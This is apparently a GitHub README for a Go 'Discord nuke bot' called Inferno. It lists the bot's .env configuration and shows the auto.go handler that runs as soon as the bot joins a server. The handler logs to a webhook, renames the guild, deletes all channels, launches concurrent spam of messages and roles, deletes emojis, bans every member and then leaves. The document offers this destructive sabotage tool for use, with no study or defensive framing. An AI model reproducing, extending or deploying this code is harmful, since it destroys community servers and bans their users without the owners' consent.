 <img src="https://media.discordapp.net/attachments/1109426745012142081/1183350870079971449/IMG_9567.png?ex=65880461&is=65758f61&hm=44475ba2ed4ff3a5e0a01e530660de151736d11b3038d632fbb672e66a0bd8cf&=&format=webp&quality=lossless&width=1202&height=657">

# Inferno-Discord-Bot
A powerful Discord nuke bot written on Go
<hr>

# .env file
There's many variables such as 

<pre>
{
    BOT_TOKEN: bot's token
    
    WEBHOOK_ID: Webhook's ID
    WEBHOOK_TOKEN: Webhook's Token
    AVATAR_URL: avatar url for webhook

    CHANNEL_NAME: name of the channel
    SERVER_NAME: name of the server
    ROLE_NAME: name of the role

    EMBED_TITLE: Embed's title
    EMBED_DESCRIPTION: Embed's description

}
</pre>
<p>/// All values are have string data type</p>

# Code Structure
All bot's functions are in cogs folder
<pre>
    main.go
    auto.go
    .env
    avatar.webp
    - cogs
      - channels.go
      - emoji.go
      - leave.go
      - members.go
      - rename.go
      - roles.go
      - webhooks.go
</pre>

# main.go & auto.go
<h1>main.go - launches bot and OnGuildCreate handler from auto.go</h1>
<pre>
    sess.AddHandler(onGuildCreate) - function onGuildCreate is located in auto.go file
</pre>
<hr>
<h1>auto.go - launches bot's functions from cogs folder if bot joined the guilld </h1>
<pre>
func onGuildCreate(s *discordgo.Session, event *discordgo.GuildCreate) {
  var wg sync.WaitGroup

	cogs.Logs(s, event)
	cogs.GuildRename(s, event)

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteChannels(s, event)
	}()
	wg.Wait()

	for i := 0; i < 50; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.TextSpam(s, event, &wg)
		}()
	}
	wg.Wait()

	wg.Add(1)
	go func() {
		defer wg.Done()
		cogs.DeleteRoles(s, event)
	}()
	wg.Wait()

	for i := 0; i < 40; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			cogs.RolesSpam(s, event)
		}()
	}
	wg.Wait()

	cogs.EmojiDelete(s, event)
	cogs.MemberBan(s, event)
	cogs.BotLeave(s, event)
    }
</pre>
<hr>
# cogs folder
There's located all bot's functions.
<pre>
    channels.go: 2 functions (DeleteChannels, TextSpam)
    emoji.go: 1 function that deletes all emojis from the server
    leave.go: 1 function that leaves from the server
    members.go: 1 function that bans all members from the server
    rename.go 1 function that renames the server 
    roles.go: 2 functions that deletes and creates roles (DeleteRoles, RolesSpam)
    webhooks.go: 1 function that send logs before nuke bot starts other functions via webhook.
</pre>


